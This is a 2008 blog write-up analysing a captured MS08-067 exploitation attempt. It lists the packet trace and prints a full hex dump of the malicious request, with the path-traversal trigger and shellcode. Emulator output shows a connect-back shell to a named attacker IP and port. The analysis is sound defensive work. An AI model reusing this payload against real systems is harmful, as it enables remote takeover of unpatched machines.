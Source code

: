 ```yaml
---
title: "MS08-067 exploitation in the wild"
authors: ["Tillmann Werner"]
date: "2008-11-04"
categories: 
  - "analysis"
---
```


(This article was originally published at [http://honeytrap.mwcollect.org/msexploit](http://honeytrap.mwcollect.org/msexploit).)

  

If you followed IT security related blogs or mailinglists lately, you are aware that a critical [server service vulnerability](http://www.microsoft.com/technet/security/bulletin/ms08-067.mspx) in Microsoft operating systems was published recently. I'm not going to talk about the details here, there are great resources available [elsewhere](http://www.dontstuffbeansupyournose.com/?p=35) (and the "_reversing the ms08-067 patch_" article isn't the only advice about exploiting holes you get on that page).

  

OK, what have we got this time? One of our [honeytrap](http://honeytrap.mwcollect.org) sensors caught an MS08-067 exploitation attempt today which we take as an example to show how to perform a quick analysis and check what it does. If you want to play along, get the (sanitized) pcap from [here](http://honeytrap.mwcollect.org/data/ms08-067.pcap).

  

Now the first thing we would normally do is take a look at the packet trace. [Some people](http://wikipedia.org/wiki/Chuck_Norris) are said to be able to decode hex SMB messages in their head - as we aren't one of those, we might prefer the amazing [wireshark](http://www.wireshark.org/) (or tshark for the command line guys) that does the decoding for us. Here's the list of packets (shortened and wrapped):

  

  
`1 A -> V TCP inovaport5 > microsoft-ds [SYN] Seq=0 Win=65535 Len=0 MSS=1460  
2 V -> A TCP microsoft-ds > inovaport5 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460  
3 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1 Ack=1 Win=65535 Len=0  
4 A -> V SMB Negotiate Protocol Request  
5 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1 Ack=138 Win=5840 Len=0  
6 V -> A SMB Negotiate Protocol Response  
7 A -> V SMB Session Setup AndX Request, NTLMSSP_NEGOTIATE  
8 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=184 Ack=408 Win=6432 Len=0  
9 V -> A SMB Session Setup AndX Response, NTLMSSP_CHALLENGE,  
Error: STATUS_MORE_PROCESSING_REQUIRED  
10 A -> V SMB Session Setup AndX Request, NTLMSSP_AUTH, User: \  
11 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=588 Ack=706 Win=7504 Len=0  
12 V -> A SMB Session Setup AndX Response  
13 A -> V SMB Tree Connect AndX Request, Path: \\192.168.111.11\IPC$  
14 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=772 Ack=804 Win=7504 Len=0  
15 V -> A SMB Tree Connect AndX Response  
16 A -> V SMB NT Create AndX Request, Path: \browser  
17 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=832 Ack=910 Win=7504 Len=0  
18 V -> A SMB NT Create AndX Response, FID: 0x4008  
19 A -> V DCERPC Bind: call_id: 1 SRVSVC V3.0  
20 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=971 Ack=1070 Win=7504 Len=0  
21 V -> A DCERPC Bind_ack: call_id: 1 accept max_xmit: 4280 max_recv: 4280  
22 A -> V SRVSVC NetPathCanonicalize request  
23 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1099 Ack=1642 Win=8580 Len=0  
24 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
25 A -> V SRVSVC NetPathCanonicalize request  
26 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1199 Ack=1894 Win=8580 Len=0  
27 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
28 A -> V SMB Close Request, FID: 0x4008  
29 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1299 Ack=1939 Win=8580 Len=0  
30 V -> A SMB Close Response, FID: 0x4008  
31 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1939 Ack=1338 Win=64198 Len=0  
32 V -> A TCP microsoft-ds > inovaport5 [FIN, ACK] Seq=1338 Ack=1939 Win=8580 Len=0  
33 A -> V TCP inovaport5 > microsoft-ds [FIN, ACK] Seq=1939 Ack=1339 Win=64198 Len=0  
34 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1339 Ack=1940 Win=8580 Len=0  
`  

  

Allright, packet 19 contains a bind call for the `srvsvc` API that contains the vulnerable `NetPathCanonicalize` function which gets called for the first time in packet 22 and contains the following payload:

  

  
`  
00000000 00 00 00 00 cf 00 00 00 00 00 00 00 cf 00 00 00 |................|  
00000010 5c 00 41 00 5c 00 2e 00 2e 00 5c 00 2e 00 2e 00 |\.A.\.....\.....|  
00000020 5c 00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |\...............|  
00000030 90 90 2b c9 83 e9 b8 d9 ee d9 74 24 f4 5b 81 73 |..+.......t$.[.s|  
00000040 13 ba 1a cd 77 83 eb fc e2 f4 46 70 26 3a 52 e3 |....w.....Fp&:R.|  
00000050 32 88 45 7a 46 1b 9e 3e 46 32 86 91 b1 72 c2 1b |2.EzF..>F2...r..|  
00000060 22 fc f5 02 46 28 9a 1b 26 3e 31 2e 46 76 54 2b |"...F(..&>1.FvT+|  
00000070 0d ee 16 9e 0d 03 bd db 07 7a bb d8 26 83 81 4e |.........z..&..N|  
00000080 e9 5f cf ff 46 28 9e 1b 26 11 31 16 86 fc e5 06 |._..F(..&.1.....|  
00000090 cc 9c b9 36 46 fe d6 3e d1 16 79 2b 16 13 31 59 |...6F..>..y+..1Y|  
000000a0 fd fc fa 16 46 07 a6 b7 46 37 b2 44 a5 f9 f4 14 |....F...F7.D....|  
000000b0 21 27 45 cc ab 24 dc 72 fe 45 d2 6d be 45 e5 4e |!'E..$.r.E.m.E.N|  
000000c0 32 a7 d2 d1 20 8b 81 4a 32 a1 e5 93 28 11 3b f7 |2... ..J2...(.;.|  
000000d0 c5 75 ef 70 cf 88 6a 72 14 7e 4f b7 9a 88 6c 49 |.u.p..jr.~O...lI|  
000000e0 9e 24 e9 59 9e 34 e9 e5 1d 1f 87 c0 5e 35 dc 72 |.$.Y.4......^5.r|  
000000f0 de e4 dc 49 44 96 2f 72 21 8e 10 7a 9a 88 6c 70 |...ID./r!..z..lp|  
00000100 dd 26 ef e5 1d 11 d0 7e ab 1f d9 77 a7 27 e3 33 |.&.....~...w.'.3|  
00000110 01 fe 5d 70 89 fe 58 2b 0d 84 10 8f 44 8a 44 58 |..]p..X+....D.DX|  
00000120 e0 89 f8 36 40 0d 82 b1 66 dc d2 68 33 c4 ac e5 |...6@...f..h3...|  
00000130 b8 5f 45 cc 96 20 e8 4b 9c 26 d0 1b 9c 26 ef 4b |._E.. .K.&...&.K|  
00000140 32 a7 d2 b7 14 72 74 49 32 a1 d0 e5 32 40 45 ca |2....rtI2...2@E.|  
00000150 a5 90 c3 dc b4 88 cf 1e 32 a1 45 6d 31 88 6a 72 |........2.Em1.jr|  
00000160 3d fd be 45 9e 88 6c e5 1d 77 41 41 41 41 41 41 |=..E..l..wAAAAAA|  
00000170 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000180 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000190 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
000001a0 41 41 41 41 41 41 41 41 41 41 cc 41 00 00 00 00 |AAAAAAAAAA.A....|  
000001b0 01 00 00 00 02 00 00 00 00 00 00 00 02 00 00 00 |................|  
000001c0 5c 00 00 00 01 00 00 00 01 00 00 00 |\...........|  
`  

Ah, there is the `\..\..` pattern at offset 0x14 that triggers the vulnerability. And hey, there seems to be some shellcode right behind it. Allright, as usual, we get our copy of [libemu](http://libemu.mwcollect.org)'s `sctest` utility out and feed it with the packet payload:

  
  

`  
$ /opt/libemu/bin/sctest -s 169762 -gS < payload  
verbose = 0  
success offset = 0x00000032  
hooked ExitProcess  
hooked ExitThread  
stepcount 169762  
HMODULE LoadLibraryA (  
LPCTSTR lpFileName = 0x0012fe88 =>  
= "ws2_32";  
) = 0x71a10000;  
int WSAStartup (  
WORD wVersionRequested = 2;  
LPWSADATA lpWSAData = 1244284;  
) = 0;  
SOCKET WSASocket (  
int af = 2;  
int type = 1;  
int protocol = 0;  
LPWSAPROTOCOL_INFO lpProtocolInfo = 0;  
GROUP g = 0;  
DWORD dwFlags = 0;  
) = 66;  
int connect (  
SOCKET s = 66;  
struct sockaddr_in * name = 0x0012fe74 =>  
struct = {  
short sin_family = 2;  
unsigned short sin_port = 37651 (port=5011);  
struct in_addr sin_addr = {  
unsigned long s_addr = 1116985917 (host=61.218.147.66);  
};  
char sin_zero = " ";  
};  
int namelen = 16;  
) = 0;  
BOOL CreateProcess (  
LPCWSTR pszImageName = 0x00000000 =>  
= "gby hand;  
LPCWSTR pszCmdLine = 0x0012fe68 =>  
= "cmd";  
LPSECURITY_ATTRIBUTES psaProcess = 0x00000000 =>  
none;  
LPSECURITY_ATTRIBUTES psaThread = 0x00000000 =>  
none;  
BOOL fInheritHandles = 1;  
DWORD fdwCreate = 0;  
LPVOID pvEnvironment = 0x00000000 =>  
none;  
LPWSTR pszCurDir = 0x00000000 =>  
none;  
struct LPSTARTUPINFOW psiStartInfo = 0x0012fe14 =>  
struct = {  
DWORD cb = 68;  
LPTSTR lpReserved = 0;  
LPTSTR lpDesktop = 0;  
LPTSTR lpTitle = 0;  
DWORD dwX = 0;  
DWORD dwY = 0;  
DWORD dwXSize = 0;  
DWORD dwYSize = 0;  
DWORD dwXCountChars = 0;  
DWORD dwYCountChars = 0;  
DWORD dwFillAttribute = 0;  
DWORD dwFlags = 257;  
WORD wShowWindow = 0;  
WORD cbReserved2 = 0;  
LPBYTE lpReserved2 = 0;  
HANDLE hStdInput = 66;  
HANDLE hStdOutput = 66;  
HANDLE hStdError = 66;  
};  
struct PROCESS_INFORMATION pProcInfo = 0x0052f74c =>  
struct = {  
HANDLE hProcess = 4711;  
HANDLE hThread = 4712;  
DWORD dwProcessId = 4712;  
DWORD dwThreadId = 4714;  
};  
) = -1;  
DWORD WaitForSingleObject (  
HANDLE hHandle = 4712;  
DWORD dwMilliseconds = -1;  
) = 0;  
int closesocket (  
SOCKET s = 66;  
) = 0;  
LPTOP_LEVEL_EXCEPTION_FILTER SetUnhandledExceptionFilter (  
LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter = 0x7c800000 =>  
none;  
) = 0x7c81cdda;  
`  

There we are. It's a connectback shell which tries to reach 61.218.147.66 (actually the attacking host) at port 5011/tcp and binds the socket to a cmd.exe. This is typical bot behavior, so what we see here is most likely a spreading piece of malware. Unfortunately we've been to slow and the port was already closed, so we didn't manage to catch a sample...
